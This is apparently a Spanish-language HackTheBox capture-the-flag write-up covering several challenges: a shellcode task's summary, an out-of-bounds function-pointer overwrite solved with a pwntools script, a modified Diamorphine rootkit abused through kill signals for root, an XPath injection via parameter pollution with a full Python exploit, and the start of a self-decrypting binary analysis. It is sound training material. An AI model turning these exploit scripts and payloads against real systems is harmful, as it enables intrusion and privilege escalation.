

### Herramientas utilizadas

| Herramienta       | Uso en el reto                                         |
|-------------------|--------------------------------------------------------|
| perl + nc         | Enviar el shellcode crudo a la instancia (método manual) |
| pwntools          | Variante automatizada en dos etapas                    |
| checksec          | Verificar la pila ejecutable (RWX, sin NX)             |
| objdump / Ghidra  | Localizar la lista negra dentro de `check()`           |

### Debilidad (CWE)

**CWE-94: Control impropio de la generación de código ('Code Injection')**

La entrada del usuario se ejecuta como código sobre una pila sin protección NX
(`-z execstack`). El programa convierte el buffer en función y lo llama
(`((void(*)())buf)()`), por lo que cualquier byte que se escriba se ejecuta.

### Patrón de ataque (CAPEC)

**CAPEC-242: Code Injection**

Se inyectó shellcode directamente en el buffer que el programa ejecuta. Para
sortear la lista negra, el shellcode cifra con XOR el string `/bin//sh` y arma el
número de syscall de `execve` en tiempo de ejecución, evitando los bytes
bloqueados.

### Bandera

```
HTB{0947aed1bdfe357f8e9033c8c874c590}
```

---

## 1.4 Last Call

| Campo                | Valor                        |
|----------------------|------------------------------|
| Categoría            | Pwn                          |
| Dificultad           | Very Easy                    |
| Puntos (XP reward)   | 260                          |
| Fecha de resolución  | 26/10/2026                   |
| Resuelto por         | Sebastian Donoso             |

### Descripción del reto

Reto de Pwn que entrega un binario ELF de 64 bits, *static-pie*, con todas las
protecciones modernas (NX, canario, PIE, Full RELRO). Simula una máquina de
karaoke con un arreglo global `cabinet` de entradas de 48 bytes. El menú ofrece
*Submit a score* (escribe 48 bytes en `cabinet[idx]`), *View a leaderboard slot*
(vuelca 48 bytes de una entrada) y *Closing time* (llama al puntero de función en
`cabinet+0x1e8`). Existe una función ganadora, `open_vault_for_real`, que abre e
imprime `flag.txt`.

### Procedimiento

**Paso 1 — Reconocimiento / análisis inicial**

`file` y `checksec` confirman static-pie con todas las protecciones. Como el
binario **no está *stripped***, `nm` lista las funciones con sus offsets:

```
checksec last_call
RELRO: Full RELRO   Canary: found   NX: enabled   PIE: PIE enabled   Stripped: No
```

```
nm last_call | grep -iE "vault|jingle|closing|submit|view|cabinet"
0000000000008999 t default_jingle
00000000000089cd t open_vault_for_real
0000000000008c21 t submit_score
0000000000008cf6 t view_slot
0000000000008de1 t closing_time
00000000000d31e0 b cabinet
```



**Paso 2 — Identificación de la vulnerabilidad**

Al desensamblar `closing_time` se ve que llama, sin validar, a un puntero de
función guardado en `cabinet+0x1e8`:

```asm
mov  rax, QWORD PTR [rip+0xca5ce]   # d33c8 <cabinet+0x1e8>
call rax
```

Y en `submit_score` el índice se valida solo con `idx <= 10`, pero la leaderboard
tiene slots 0–9. Cada entrada mide `0x30` bytes, así que `idx=10` escribe en
`cabinet + 10*0x30 = cabinet+0x1e0` (rango 0x1e0–0x210), que **cubre el puntero de
`cabinet+0x1e8`**. Es una escritura fuera de rango sobre un puntero de función.

```asm
cmp QWORD PTR [rbp-0x18], 0xa    ; compara el indice contra 10
jle 0x8c62                        ; lo acepta si idx <= 10
...
mov edx, 0x30                     ; lee 48 bytes crudos
call fread                        ; en cabinet + idx*0x30
```

Todo el análisis se hizo con `nm` y `objdump` (el binario no está *stripped*, así
que no hace falta un descompilador como Ghidra).



Como el binario es PIE, la dirección de `open_vault_for_real` cambia en cada
ejecución. La opción *View a leaderboard slot* da la fuga necesaria: la entrada 0
contiene en su offset `0x28` la dirección en tiempo de ejecución de
`default_jingle` (`0x8999`), de donde se calcula la base y la de la función
ganadora (`open_vault_for_real` = `default_jingle + 0x34`).

**Paso 3 — Explotación (3 pasos)**

```python
#!/usr/bin/env python3
# Plan: fugar default_jingle -> base PIE -> escribir open_vault_for_real en
# cabinet+0x1e8 con submit idx=10 -> disparar closing_time -> flag.
import sys
from pwn import *

context.binary = './last_call'
DEFAULT_JINGLE = 0x8999
OPEN_VAULT     = 0x89cd

def start():
    # Acepta  IP PUERTO  (dos args)  o  IP:PUERTO  (un arg)
    if len(sys.argv) >= 3:
        return remote(sys.argv[1], int(sys.argv[2]))
    if len(sys.argv) == 2:
        host, _, port = sys.argv[1].rpartition(':')
        return remote(host, int(port))
    return process('./last_call')

io = start()

# Paso 1: fuga con view_slot(0)
io.sendline(b'2'); io.sendline(b'0')
io.recvuntil(b'bytes):\n')
dump = b''
while len(dump) < 48:                 # el volcado son 3 lineas de 16 bytes
    dump += bytes(int(t, 16) for t in io.recvline().split())
leak   = u64(dump[0x28:0x30])         # jingle_ptr de la entrada 0 = default_jingle
base   = leak - DEFAULT_JINGLE
target = base + OPEN_VAULT

# Paso 2: submit idx=10, target en cabinet+0x1e8 (offset 8 del payload)
io.sendline(b'1'); io.sendline(b'10')
io.recvuntil(b'jingle_ptr[8]): ')
io.send(b'A'*8 + p64(target) + b'C'*32)   # 48 bytes exactos

# Paso 3: closing_time (opcion 3) -> open_vault_for_real -> flag
io.sendline(b'3')
io.recvuntil(b'gives way')
print(io.recvall(timeout=3).decode(errors='replace'))
```

Se ejecuta contra la instancia de HTB con `python3 exploit.py <IP> <PUERTO>`.



### Herramientas utilizadas

| Herramienta       | Uso en el reto                                         |
|-------------------|--------------------------------------------------------|
| nm                | Listar las funciones del binario (no *stripped*)       |
| objdump           | Desensamblar `closing_time` y `submit_score`           |
| checksec / file   | Identificar protecciones y tipo (static-pie)           |
| pwntools          | Fuga PIE, construcción del payload y automatización     |

### Debilidad (CWE)

**CWE-787: Escritura fuera de límites**

`submit_score` acepta el índice 10 aunque la leaderboard solo tiene slots 0–9. La
entrada 10 cae sobre el puntero de función en `cabinet+0x1e8`, que `closing_time`
invoca sin validar. Encadena con **CWE-129** (validación impropia del índice de
arreglo) que desemboca en una llamada indirecta a destino controlado.

### Patrón de ataque (CAPEC)

**CAPEC-129: Pointer Manipulation**

Se manipuló el puntero de función de `cabinet+0x1e8` (vía la escritura fuera de
rango de `submit_score` con `idx=10`) para redirigir el flujo de ejecución a
`open_vault_for_real`, usando previamente una fuga de `view_slot` para vencer el
PIE.

### Bandera

```
HTB{th3_l3ad3rb04rd_w4s_n3v3r_th3_p01nt}
```

---

## 1.5 Cyberpsychosis

| Campo                | Valor                        |
|----------------------|------------------------------|
| Categoría            | Reversing                    |
| Dificultad           | Easy                         |
| Puntos (XP reward)   | 260                          |
| Fecha de resolución  | 30/10/2026                   |
| Resuelto por         | Sebastian Donoso             |

### Descripción del reto

Reto de Reversing que entrega un módulo de kernel de Linux (`diamorphine.ko`). Es
una versión **modificada** del rootkit de código abierto *Diamorphine* (de m0nad).
El objetivo es analizar el módulo para descubrir qué cambiaron, y usar ese
conocimiento en la máquina remota para volverse root y leer la bandera (que el
propio rootkit mantiene oculta).

### Procedimiento

**Paso 1 — Reconocimiento / análisis inicial**

Se identificó el archivo como un módulo de kernel y se confirmó de qué rootkit se
trata:

```bash
file diamorphine.ko      # ELF relocatable x86-64, not stripped, con debug_info
modinfo diamorphine.ko   # author=m0nad, description=LKM rootkit, vermagic 5.15.0-82-generic
```



**Paso 2 — Identificación de lo modificado (Ghidra)**

Se abrió `diamorphine.ko` en Ghidra y se analizó la función `hacked_kill` (el hook
de la syscall `kill`, que decide qué hacer según la señal recibida). El
decompilador revela las tres ramas y, sobre todo, la señal **modificada**:

- `if (sig == 0x2e)` → **señal 46**: oculta/muestra el módulo. En el Diamorphine
  original esta señal es la **63**; aquí la cambiaron a 46 — ese es el hallazgo del
  reto (el `kill -63 0` clásico no funciona).
- `if (sig == 0x40)` → señal 64: `prepare_creds()` + poner uid/gid/euid/egid en 0 +
  `commit_creds()` = `give_root()` (sin cambios).
- `if (sig == 0x1f)` → señal 31: oculta/muestra un proceso (sin cambios).

Además, el MAGIC_PREFIX del rootkit fue cambiado de `diamorphine_secret` a
**`psychosis`**: los archivos y carpetas cuyo nombre empieza con `psychosis`
quedan ocultos (por eso la bandera estaba en `/opt/psychosis/`).



**Paso 3 — Explotación (máquina remota)**

Con el *target host* (IP y puerto) que da *Start Challenge*, se accede por netcat y
se usan las señales reverseadas: obtener root con la señal 64, desocultar el módulo
con la 46, descargarlo (con lo que deja de ocultar archivos) y leer la bandera.

```bash
nc -nv <IP> <PUERTO>
# ya dentro del shell:
id                    # usuario normal
kill -64 0            # give_root (señal 64)
id                    # ahora uid=0(root)
kill -46 0            # desoculta el módulo (señal modificada)
rmmod diamorphine     # lo descarga -> deja de ocultar /opt/psychosis
find / -iname "*flag*" 2>/dev/null
cat /opt/psychosis/flag.txt
```





### Herramientas utilizadas

| Herramienta       | Uso en el reto                                         |
|-------------------|--------------------------------------------------------|
| file / modinfo    | Identificar el módulo de kernel y el rootkit (m0nad)   |
| Ghidra            | Decompilar `hacked_kill` y hallar la señal 46 y el prefijo |
| netcat (nc)       | Conectarse a la máquina remota                         |

### Debilidad (CWE)

**CWE-506: Embedded Malicious Code**

El `.ko` es un rootkit de kernel: oculta su propia presencia (lo saca de la lista
de módulos), oculta procesos y archivos por un prefijo mágico, y otorga privilegios
de root a demanda. Se apoya en **CWE-269 (Improper Privilege Management)**: cualquier
proceso puede volverse root enviando una señal específica, sin autenticación.

### Patrón de ataque (CAPEC)

**CAPEC-550: Install Rootkit**

El módulo intercepta llamadas del sistema (hook de `kill` y de `getdents`) para
ocultar su actividad y escalar privilegios, comportamiento característico de la
instalación de un rootkit en el kernel.

### Bandera

```
HTB{N0w_Y0u_C4n_S33_m3_4nd_th3_r00tk1t_h4s_b33n_sUcc3ssfully_d3f34t3d!!}
```

---

## 1.6 TreaPortal

| Campo                | Valor                        |
|----------------------|------------------------------|
| Categoría            | Web                          |
| Dificultad           | Easy                         |
| Puntos (XP reward)   | 260                          |
| Fecha de resolución  | 9/11/2026                    |
| Resuelto por         | Sebastian Donoso             |

### Descripción del reto

Reto de Web que entrega el código fuente de un portal de empleados hecho en
Node.js/TypeScript (Fastify). La "base de datos" no es SQL: es un archivo **XML**
(`users.xml`) que se consulta con **XPath** (dependencias `@xmldom/xmldom` y
`xpath`). El único usuario real es `admin`, y la bandera está guardada dentro de su
registro, en el elemento `<flag>`. Los usuarios que uno registra tienen ese campo
vacío. El objetivo es lograr que la aplicación devuelva el registro del admin.

### Procedimiento

**Paso 1 — Reconocimiento / análisis inicial**

Se levantó la aplicación localmente (`npm install` + `npm run dev`) para observar
el flujo: registro, login y un perfil con un buscador de empleados. El endpoint
`GET /api/user/` es el único que devuelve el objeto de un usuario **incluyendo el
campo `flag`** — ese es el blanco.


**Paso 2 — Identificación de la vulnerabilidad**

El endpoint arma la consulta XPath concatenando directamente la entrada del usuario:

```ts
const node = xpath.select1(`//user[username='${username}']`, doc)
```

Eso es **XPath injection**, pero hay dos defensas que la bloquean cuando `username`
es un texto:

```ts
// 1) control de acceso: solo tu propio usuario
if (typeof username === 'string' && username !== tokenPayload.username) return 403
// 2) blacklist de caracteres de inyección
const blacklist = ["'", ';', 'or', 'and', ')', '(', '/', 'doc']
return blacklist.some(pattern => input.includes(pattern))
```

La grieta es **confusión de tipos**: si `username` se manda como **array** (el
parámetro duplicado en la URL: `?username=&username=...`), las dos defensas caen:

- `typeof array === 'string'` es **falso**, así que el `&&` corta y el 403 nunca se
  ejecuta (evaluación en cortocircuito).
- `array.includes(patrón)` compara **elementos completos**, no subcadenas, así que
  los caracteres de inyección (`'`, `or`) **no se detectan**.

Al concatenarse, el array se une con coma: `['', "' or '1'='1"]` → `,' or '1'='1`,
dejando la consulta `//user[username=',' or '1'='1']`, siempre verdadera, que
devuelve el primer usuario (el admin) con su `flag`.

**Paso 3 — Explotación**

Se automatizó con un script en Python: registra un usuario (para obtener un JWT
válido), y luego lanza la inyección con el parámetro `username` duplicado.

```python
import sys, json, urllib.request, urllib.parse, random
base = sys.argv[1].rstrip('/')

def post(path, data):
    req = urllib.request.Request(base+path, data=json.dumps(data).encode(),
                                 headers={'Content-Type': 'application/json'})
    return json.load(urllib.request.urlopen(req))
def get(path, token):
    req = urllib.request.Request(base+path, headers={'Authorization': 'Bearer '+token})
    return json.load(urllib.request.urlopen(req))

# Paso 1: registrarse y obtener el JWT (user >= 2 caracteres, email @trea.htb)
u = "x%d" % random.randint(1000, 9999)
jwt = post('/api/auth/register', {"username": u, "email": u+"@trea.htb", "password": "x"})["jwt"]

# Paso 2: inyeccion XPath via array (username duplicado)
qs = "username=&username=" + urllib.parse.quote("' or '1'='1")
data = get('/api/user/?' + qs, jwt)
print(data.get("flag"))
```

Uso: `python3 exploit_treaportal.py http://<IP>:<PUERTO>` (la IP y puerto de la
instancia de HTB). También puede hacerse a mano con dos `curl`, o en vivo desde la
consola del navegador con un `fetch` que duplique el parámetro.


### Herramientas utilizadas

| Herramienta       | Uso en el reto                                         |
|-------------------|--------------------------------------------------------|
| Python (urllib)   | Automatizar el registro y la inyección                 |
| curl / navegador  | Enviar la petición con el parámetro `username` duplicado |
| Lectura de código | Analizar el fuente (Fastify, XPath, el filtro débil)   |

### Debilidad (CWE)

**CWE-643: Improper Neutralization of Data within XPath Expressions ('XPath Injection')**

La entrada del usuario se concatena directamente en la consulta
`//user[username='...']`. Se agrava con **CWE-184 (Incomplete Blacklist)** —el filtro
intenta enumerar caracteres peligrosos en vez de validar lo permitido— y con
**CWE-843 (Type Confusion)**: enviar el parámetro como array evade tanto el `typeof`
del control de acceso como el `.includes` del filtro, desembocando en
**CWE-284 (Improper Access Control)**.

### Patrón de ataque (CAPEC)

**CAPEC-83: XPath Injection**

Se inyectó una expresión XPath siempre verdadera para alterar la lógica de la
consulta y recuperar un registro restringido (el del admin). La duplicación del
parámetro para formar el array corresponde a **CAPEC-460: HTTP Parameter Pollution**.

### Bandera

```
HTB{8801630138dddbc823abda01f60eb727}
```

---

## 1.7 Partial Encryption

| Campo                | Valor                        |
|----------------------|------------------------------|
| Categoría            | Reversing                    |
| Dificultad           | Easy                         |
| Puntos (XP reward)   | 260                          |
| Fecha de resolución  | 12/11/2026                   |
| Resuelto por         | Djedrielle                   |

### Descripción del reto

Reto de Reversing que entrega un ejecutable de Windows `partialencryption.exe` (PE32+ x86-64, compilado con MSVC). El programa recibe una cadena como argumento de línea de comandos y la valida contra la flag. La lógica de validación **no está en texto plano**: parte del código viaja **cifrada** dentro de la sección `.data` y se descifra y ejecuta en tiempo de ejecución (de ahí "Partial Encryption"). Por eso el análisis estático directo no revela nada, tal como sugiere el enunciado: *"Static-Analysis on this program didn't reveal much."*

### Procedimiento

**Paso 1 — Reconocimiento**

Con `file` se confirma que es un binario de Windows de 64 bits:

```
file ./partialencryption.exe
./partialencryption.exe: PE32+ executable for MS Windows 6.00 (console), x86-64, 5 sections
```

Aunque es un PE de Windows, al ser un reto de reversing se analiza en Linux (no requiere ejecutarse en Windows). Revisando las cadenas e importaciones destacan `VirtualAlloc`, `VirtualProtect`, `VirtualFree` y `putchar`:



Esa combinación (reservar memoria, cambiarle permisos a ejecutable y ejecutarla) es la firma de **código auto-descifrante**.

**Paso 2 — Identificación del mecanismo (Partial Encryption)**

En Ghidra se reconstruye el flujo. El `main` real (`main1`) llama a cuatro sub-rutinas:



cada una usa una función (`mem_alloc`) que implementa el patrón:

1. `VirtualAlloc(..., PAGE_READWRITE)` → buffer escribible.
2. Descifra un blob de `.data` **bloque a bloque** (AES-NI: `aeskeygenassist` + `aesdeclast`, con clave por bloque igual al índice del bloque).
3. `VirtualProtect(..., PAGE_EXECUTE_READ)` → vuelve el buffer ejecutable.
4. `call` al buffer → ejecuta el código descifrado; luego `VirtualFree`.



